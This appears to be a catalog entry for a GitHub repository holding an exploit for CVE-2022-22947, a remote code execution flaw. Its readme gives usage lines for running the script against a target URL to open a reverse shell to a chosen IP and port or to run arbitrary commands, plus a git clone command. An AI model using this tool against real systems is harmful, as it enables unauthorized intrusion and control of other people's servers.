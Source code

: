 # CVE-2022-22947

CVE-2022-22947_EXP,CVE-2022-22947_RCE,CVE-2022-22947反弹shell,CVE-2022-22947 getshell

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/aodsec](https://github.com/aodsec) |
| Url      | [https://github.com/aodsec/CVE-2022-22947](https://github.com/aodsec/CVE-2022-22947)                                               |
| Stars    | 25                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-22947
CVE-2022-22947_EXP,CVE-2022-22947_RCE

## Usage
### 反弹shell
python3 CVE-2022-22947.py 目标网址 弹shell的IP 端口
### 执行命令
python3 CVE-2022-22947.py 目标网址 命令



## Get the content

```
git clone https://github.com/aodsec/CVE-2022-22947
cd CVE-2022-22947
```

{% embed url="https://github.com/aodsec/CVE-2022-22947" %}

<figure><img src="https://avatars.githubusercontent.com/u/96908273?v=4" alt=""><figcaption><p>aodsec</p></figcaption></figure>
